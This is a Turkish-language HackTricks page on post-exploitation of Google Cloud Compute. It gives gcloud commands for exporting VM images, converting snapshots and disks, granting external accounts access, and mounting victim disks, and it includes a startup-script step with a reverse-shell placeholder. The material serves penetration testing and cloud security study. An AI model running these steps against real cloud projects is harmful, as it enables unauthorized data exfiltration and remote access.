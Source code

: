 # GCP - Compute Post Exploitation

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Compute

Compute ve VPC (Ağ) hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Görüntüleri yerel olarak dışa aktarın ve inceleyin

Bu, bir saldırganın **zaten mevcut görüntülerde bulunan verilere erişmesine** veya **çalışan VM'lerin yeni görüntülerini oluşturmasına** ve çalışan VM'ye erişim olmadan verilerine erişmesine olanak tanır.

Bir VM görüntüsünü bir kovaya dışa aktarmak ve ardından indirmek ve yerel olarak bağlamak mümkündür. 

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Bu işlemi gerçekleştirmek için saldırganın depolama kovası üzerinde yetkilere ve kesinlikle **cloudbuild üzerinde yetkilere** ihtiyacı olabilir, çünkü bu **hizmet** dışa aktarma işlemini gerçekleştirmesi istenecektir.\
Ayrıca, bunun çalışması için codebuild SA ve compute SA'nın ayrıcalıklı izinlere ihtiyacı vardır.\
Cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` için gerekenler:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Ve SA `<project-id>-compute@developer.gserviceaccount.com` için gerekenler:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Anlık Görüntüleri ve Diskleri Yerel Olarak Dışa Aktarma ve İnceleme

Anlık görüntüleri ve diskleri doğrudan dışa aktarmak mümkün değildir, ancak **bir anlık görüntüyü bir diske, bir diski bir görüntüye dönüştürmek** ve **önceki bölümdeki** adımları takip ederek o görüntüyü dışa aktararak yerel olarak incelemek mümkündür.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Bir VM Oluşturarak Bir Görüntüyü İnceleme

Bir saldırganın **bir görüntü oluşturduğu** yerden **bir görüntüde depolanan verilere** veya **çalışan bir VM'ye** erişim sağlama amacıyla, bir dış hesaba görüntüye erişim izni vermek mümkündür:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
ve ardından ondan yeni bir VM oluşturun:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Eğer dış hesabınıza görüntü üzerinden erişim veremiyorsanız, kurbanın projesinde o görüntüyü kullanarak bir VM başlatabilir ve **metadata'yı bir ters shell çalıştıracak şekilde ayarlayarak** görüntüye erişmek için parametre ekleyebilirsiniz:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Bir Snapshot/Disk'i Bir VM'ye Bağlayarak İnceleme

**Bir disk veya snapshot'ta depolanan verilere erişim sağlama amacıyla, snapshot'ı bir diske, diski bir imaja dönüştürebilir ve önceki adımları takip edebilirsiniz.**

Ya da **bir dış hesaba disk üzerinde erişim verebilirsiniz** (başlangıç noktası bir snapshot ise, snapshot'a erişim verin veya ondan bir disk oluşturun):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Bir diski** bir örneğe ekleyin:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Diski VM içinde bağlayın:

1.  **VM'ye SSH ile bağlanın**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Diski Tanımlayın**: VM'ye girdikten sonra, disk cihazlarını listeleyerek yeni diski tanımlayın. Genellikle, `/dev/sdb`, `/dev/sdc` gibi bulabilirsiniz.
3. **Diski Formatlayın ve Bağlayın** (eğer yeni veya ham bir diskse):
*   Bir bağlama noktası oluşturun:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Diski bağlayın:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Eğer **snapshot veya diske dış bir projeye erişim veremiyorsanız**, bu işlemleri **snapshot/disk ile aynı projedeki bir örnek içinde gerçekleştirmeniz gerekebilir**.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
